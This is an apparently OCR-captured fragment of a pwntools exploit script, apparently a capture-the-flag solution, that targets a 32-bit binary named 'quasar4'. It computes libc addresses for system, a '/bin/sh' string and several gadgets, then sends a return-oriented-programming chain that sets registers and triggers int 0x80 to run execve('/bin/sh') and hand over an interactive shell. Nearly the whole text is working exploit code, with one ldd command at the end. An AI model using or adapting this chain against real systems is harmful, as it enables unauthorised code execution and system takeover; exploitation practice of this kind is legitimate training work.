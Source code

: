 ```python

system_offset = 0x3e9e0
system_address = base_address_libc + system_offset

binsh_offset = 0x17eaaa
binsh_addr = base_address_libc + binsh_offset
log.info(f"binsh_addr={hex(binsh_addr)}")

execve_offset = 0xc0470
execve_addr = base_address_libc + execve_offset

#pop_ebx = 0x101e
pop_ebx = base_address_libc + 0x0001a8b5
#pop_edx = base_address_libc + 0x02ee7c
pop_ecx_edx = base_address_libc + 0x2ee7b
xor_eax = base_address_libc + 0x2fe1f
inc_eax = base_address_libc + 0x00137725
ret_gad = base_address_libc + 0x099b2
int_0x80 = base_address_libc + 0x2f275
add_eax_0xb = base_address_libc + 0x0015b0c6

p.sendline(b"1040")

flow = b"T" * 16
flow2 = b"T" * 4

summon = [
    flow,
    p32(pop_ebx),
    p32(binsh_addr),
    p32(pop_ecx_edx),
    p32(0x0),
    p32(0x0),
    p32(xor_eax),
    p32(add_eax_0xb),
    p32(int_0x80),
]

summon = b"".join(summon)

p.sendline(summon)

p.interactive()
```

# Command list

```bash
ldd ./quasar4    # check libc version and location
```
